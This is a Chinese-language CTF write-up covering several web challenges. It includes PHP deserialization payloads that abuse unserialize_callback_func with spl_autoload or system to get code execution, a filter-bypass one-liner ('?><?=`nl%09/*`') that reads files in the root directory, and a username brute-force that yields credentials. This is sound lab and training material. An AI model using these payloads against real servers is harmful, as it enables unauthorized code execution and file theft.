









# easy_unserialize

```php
<?php
highlight_file(__FILE__);
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
        'display_errors'=>'On',
        'allow_url_fopen'=>'On'
        );
        $this->params=array();
    }
    public function __wakeup(){
        foreach ($this->settings as $key => $value) {
            ini_set($key, $value);
        }
    }

    public function __destruct(){
        file_put_contents('settings.inc', unserialize($this->params));
    }
}

unserialize($_GET['data']);

Notice: Undefined index: data in /var/www/html/index.php on line 39
```

这里的话在反序列化的时候触发wakeup方法，通过ini_set函数去动态设置PHP的ini配置，而这个设置的内容就是我们设置的settings的键值对，并且在对象销毁的时候会将params的值反序列化后写入settings.inc文件

通过ini_set设定配置选项，那我们可利用`unserialize_callback_func`

## unserialize_callback_func配置



当unserialize()尝试使用未定义的类 时，会调用指定的类的回调函数 。如果指定的回调函数未定义，或者回调函数未能定义缺失的类，则会显示警告。

简单来说，

在 PHP 中，反序列化（`unserialize`）时，如果遇到未定义的类，默认行为是抛出一个警告（`Warning`）并继续执行。

- **`unserialize_callback_func`** 允许你指定一个回调函数，当遇到未定义类时，PHP 会调用该回调函数来尝试加载类。

然后我们再看看另一个spl_autoload

## spl_autoload()函数



然后我们跟进autoload()函数的实现



所以我们可以知道，这里会尝试加载未定的类，然后`spl_autoload` 会尝试加载与类名同名的 `.php` 或 `.inc` 文件。这里就是突破口

先给payload再讲讲思路吧

```php
<?php
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings = array(
            'unserialize_callback_func' => 'spl_autoload'
        );
        $this->params = serialize('<?php phpinfo();?>');
    }
}
$a = new main();
echo urlencode(serialize($a));
```

将输出结果传入data参数

这里的话我们通过ini_set将unseralize_callback_func配置设置为回调函数spl_autoload，并将`<?php phpinfo();?>`写入setting.inc中

```php
<?php
class settings{

}
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings = array(
            'unserialize_callback_func' => 'spl_autoload'
        );
        $this->params = serialize(new settings());
    }
}
$a = new main();
echo urlencode(serialize($a));
```

这里我们设置params为一个settings类的实例化对象，将输出结果传入后发现



我们刚刚设置的代码被成功执行了，这是为什么呢？

首先我们知道，我们第一个payload中将unseralize_callback_func设置为一个回调函数spl_autoload，并将我们的恶意代码（例如`<?php phpinfo();?>`）写入settings.inc中，之后我们第二个payload就是关键，我们将param设置为一个未定义的类settings，在传入data的时候data经过unseralize函数反序列化后，在对象销毁的时候触发file_put_contents函数中的unseralize，此时我们的settings类是未定义的，`spl_autoload` 会根据类名尝试加载对应的文件，例如settings.inc或者settings.php，那么此时就会包含此文件，包含的话就会执行里面的php代码

测试成功了直接打就行

当然我们这里也可以用更简单的方法

```php
<?php
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
        'unserialize_callback_func'=>'system',
        );
        $this->params='O:2:"ls":0:{}';      
    }
}
$a=new main();
echo serialize($a);
```

这里的话就是反序列化后是未定义的类，然后就会调用指定的函数，函数的参数就是反序列化的类名

# web_checkin

## #内联执行+短标签+nl的特性

```php
<?php
error_reporting(0);
include "config.php";
//flag in /

function check_letter($code){
    $letter_blacklist = str_split("abcdefghijklmnopqrstuvwxyz1234567890");
    for ($i = 0; $i < count($letter_blacklist); $i+=2){
        if (preg_match("/".$letter_blacklist[$i]."/i", $code)){
            die("xi nei~");
        }
    }
}

function check_character($code){
    $character_blacklist = array('=','\+','%','_','\)','\(','\*','&','\^','-','\$','#','`','@','!','~','\]','\[','}','{','\'','\"',';',' ','\/','\.','\?',',','<',':','>');
    for ($i = 1; $i < count($character_blacklist); $i+=2){
        if (preg_match("/".$character_blacklist[$i]."/", $code)){
            die("tongtong xi nei~");
        }
    }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if (!file_exists($dir)) {
    mkdir($dir);
}
if (isset($_GET["code"])) {
    $code = substr($_GET["code"], 0, 12);
    check_letter($code);
    check_character($code);

    file_put_contents("$dir" . "index.php", "<?php ".$code.$fuxkfile);
    echo $dir;
}else{
    highlight_file(__FILE__);
}
```

flag在根目录

代码分块分析一下

```php
function check_letter($code){
    $letter_blacklist = str_split("abcdefghijklmnopqrstuvwxyz1234567890");
    for ($i = 0; $i < count($letter_blacklist); $i+=2){
        if (preg_match("/".$letter_blacklist[$i]."/i", $code)){
            die("xi nei~");
        }
    }
}
```

过滤了一些字符，可以写个脚本看一下

```php
<?php
$letter_blacklist = str_split("abcdefghijklmnopqrstuvwxyz1234567890");
for($i = 0; $i < count($letter_blacklist); $i+=2){
    echo $letter_blacklist[$i];
}
//acegikmoqsuwy13579
```

过滤了部分字母数字（源代码中有/i模式同样过滤了同样的大写字母）

```php
function check_character($code){
    $character_blacklist = array('=','\+','%','_','\)','\(','\*','&','\^','-','\$','#','`','@','!','~','\]','\[','}','{','\'','\"',';',' ','\/','\.','\?',',','<',':','>');
    for ($i = 1; $i < count($character_blacklist); $i+=2){
        if (preg_match("/".$character_blacklist[$i]."/", $code)){
            die("tongtong xi nei~");
        }
    }
}
```

同样写个脚本

```php
<?php
$character_blacklist = array('=','\+','%','_','\)','\(','\*','&','\^','-','\$','#','`','@','!','~','\]','\[','}','{','\'','\"',';',' ','\/','\.','\?',',','<',':','>');
for($i = 0; $i < count($character_blacklist); $i+=2){
    echo $character_blacklist[$i];
}
//%\)\*\^\$`!\]}';\/\?<>
```

继续往下看

```php
$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if (!file_exists($dir)) {
    mkdir($dir);
}
```

先看看预定义变量$_SERVER中的信息



所以这里会获取我们的ip地址并进行md5加密，然后构成文件路径，若不存在则创建文件夹

```php
if (isset($_GET["code"])) {
    $code = substr($_GET["code"], 0, 12);
    check_letter($code);
    check_character($code);

    file_put_contents("$dir" . "index.php", "<?php ".$code.$fuxkfile);
    echo $dir;
}else{
    highlight_file(__FILE__);
}
```

获取传入code的前12个字符并进行字符检测，然后写入文件

```php
file_put_contents("$dir" . "index.php", "<?php ".$code.$fuxkfile);
```

在指定目录下的index.php文件中写入我们的代码，并返回dir文件路径

所以综上所述过滤的字符有

```
a,c,e,g,i,k,m,o,q,s,u,w,y,1,3,5,7,9,A,C,E,G,I,K,M,O,Q,S,U,W,Y,%,),*,^,$,`,!,],},',;,/,\,?,<,>
```

那么可用字符有

```
  " # & ( + , - . 0 2 4 6 8 : = @ B D F H J L N P R T V X Z [ _ b d f h j l n p r t v x z { | ~ 
```

但是这里的$fuxkfile变量的值我们是未知的，可以先随便传入code看看能不能通过路径访问拿到fuxkfile的值



传入后返回路径，拼接上index.php进行访问发现可以访问出来



但是没获取到$fuckfile的内容，就算传入空白字符也是，那我们尝试闭合一下前面的语句

```
?code=?><?=`nl%09/*`
```

用反引号可以进行命令的执行，然后用短标签去构造`<?php`就行

想起来之前遇到的nl的一个特性，就是在 Shell 中，`*` **匹配当前路径的非隐藏文件和目录**，`/*` → 匹配根目录下**所有文件和一级子目录**，并且nl会依序处理这些文件，输出他们的内容并加上行号，但是会跳过目录和二进制文件



# RealWorld_CyberShow

## #爆破用户名

转了一圈，在/blog-details.html有提示


直接爆破用户名，用户名有模板2020010007，估计是十位的纯数字编号

bp发包好几次都是给靶场打坏了，只能开延迟或者分开爆

从2020000000开始爆破，爆出用户名就给flag

```
2020036001/363636
```

# easy CMS

先把源码下下来看一下，内容很多啊，丢给seay审一下


